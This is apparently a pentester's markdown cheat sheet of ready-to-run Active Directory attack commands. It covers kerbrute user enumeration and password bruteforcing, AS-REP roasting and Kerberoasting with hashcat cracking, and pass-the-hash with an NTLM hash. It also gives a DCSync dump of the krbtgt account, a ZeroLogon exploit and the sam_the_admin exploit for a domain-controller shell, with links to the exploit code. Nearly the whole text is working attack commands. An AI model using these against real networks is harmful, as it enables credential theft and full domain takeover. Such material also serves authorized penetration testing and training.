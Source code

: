 #### User enumeration

```
kerbrute -d domain.local --dc $IP userenum /usr/share/seclists/Usernames/Names/names.txt
```

#### User bruteforce password

```
kerbrute -d domain.local --dc $IP bruteuser /usr/share/seclists/Passwords/probable-v2-top12000.txt username
```

#### AS_REP Roasting

```
impacket-GetNPUsers domain.local/ -dc-ip $IP -usersfile users.txt -format hashcat -out asrep-roasting.txt
```
```
hashcat -m 18200 asrep-roasting.txt /usr/share/wordlists/rockyou.txt
```

#### Get AD Users

```
impacket-GetADUsers -hashes ':11628d378a956b8ffc7e2c54b9a59574' 'domain.com/user' -dc-ip 10.10.10.10 -all
```

#### Get users description

```
crackmapexec ldap $IP -u user -p 'Password1' --kdcHost $IP -M get-desc-users
```

#### Kerberoasting 

- Also work with machine account :)

```
impacket-GetUserSPNs -hashes ':11628d378a956b8ffc7e2c54b9a59574' 'domain.com/user' -dc-ip 10.10.10.10 -request -outputfile kerberoasting.hash
```

#### DC Sync

```
secretsdump.py 'contoso.local/Administrator@$IP' -just-dc-user krbtgt
```

#### ZeroLogon

- check CVE-2020-1472 : https://github.com/SecuraBV/CVE-2020-1472
- exploit CVE-2020-1472 : https://github.com/dirkjanm/CVE-2020-1472
```
python3 cve-2020-1472-exploit.py DCNAME $IP
```

#### SAM The Admin

exploit CVE-2021-42278 and CVE-2021-42287 : https://github.com/WazeHell/sam-the-admin
```
python3 sam_the_admin.py "domain.local\user:Password1!" -dc-ip $IP -shell
```
